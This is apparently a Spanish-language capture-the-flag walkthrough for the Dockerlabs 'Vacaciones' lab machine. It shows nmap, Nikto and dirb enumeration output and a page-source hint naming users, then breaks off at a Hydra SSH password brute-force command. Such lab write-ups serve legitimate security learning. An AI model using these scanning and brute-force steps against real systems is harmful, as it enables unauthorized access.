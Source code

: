 # Maquina-Vacaciones

## Resolución de la Maquina Vacaciones de Dockerlabs.es "El pinguino de Mario"

## Paso N°1: Busqueda con nmap.

```bash
nmap -sV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-23 08:31 -03
Nmap scan report for 172.17.0.2
Host is up (0.000093s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.18 seconds
```
_Adjunto imagen:_

![01](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/981f38e1-a867-425c-a015-96e8f0f3a69d)

#################################################################################################

## Paso N°2: Busqueda con Nikto.

```bash
nikto -h http://172.17.0.2             
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          172.17.0.2
+ Target Hostname:    172.17.0.2
+ Target Port:        80
+ Start Time:         2024-06-23 08:44:45 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: 4a, size: 616e75cb6bc40, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, HEAD, GET .
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ 8102 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2024-06-23 08:45:16 (GMT-3) (31 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
_Adjunto imagen:_ 

![02](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/5b6f778c-e799-4bd3-a45c-c99822d1e4f4)


#################################################################################################

## Paso N°3: Busqueda con dirb.

```bash
dirb http://172.17.0.2 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jun 23 08:48:23 2024
URL_BASE: http://172.17.0.2/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://172.17.0.2/ ----
+ http://172.17.0.2/index.html (CODE:200|SIZE:74)
==> DIRECTORY: http://172.17.0.2/javascript/                                                           
+ http://172.17.0.2/server-status (CODE:403|SIZE:275)
                                         
---- Entering directory: http://172.17.0.2/javascript/ ----
==> DIRECTORY: http://172.17.0.2/javascript/jquery/                                                    
                                                                                                       
---- Entering directory: http://172.17.0.2/javascript/jquery/ ----
+ http://172.17.0.2/javascript/jquery/jquery (CODE:200|SIZE:268026)                                                                                                   
-----------------
END_TIME: Sun Jun 23 08:48:25 2024
DOWNLOADED: 13836 - FOUND: 3
```
_Adjunto imagen:_ 

![03](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/0adff950-b91c-4554-836f-d9313aefe3c6)

## _Aca podemos ver 3 directorios, dos de ellos nos envia  a paginas que no funcionan y una la "index.html" que no muestra nada pero si le damos a inspeccionar vemos un mensaje que dice: "De: Juan Para: Camilo, te he dejado un correo es importante"_
_Adjunto imagen:_ 

![05](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/6ea184f0-a4cc-41b8-b071-366cac35a497)
#################################################################################################
-------------------------------------------------------------------------------------------------
#################################################################################################
![06](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/0c4c2b80-f609-4d4d-a030-a40b482cd97b)
#################################################################################################
![07](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/e3b537f8-0bd7-460b-a5f2-4df80340db54)

_como sabemos que tiene el "puerto 22" abierto que es el de ssh vamos a probar con el nombre de camilo y si no funciona probamos con el de juan._

## Paso N°4: Ataque de Fuerza Bruta con Hydra.

_Asi que ahora procedemos a usar hydra de la siguiente manera:

```bash
hydra  -l camilo -P /usr/share/wordlists/rockyou.txt -t4 -vV 172.17.0.2 ssh
```



















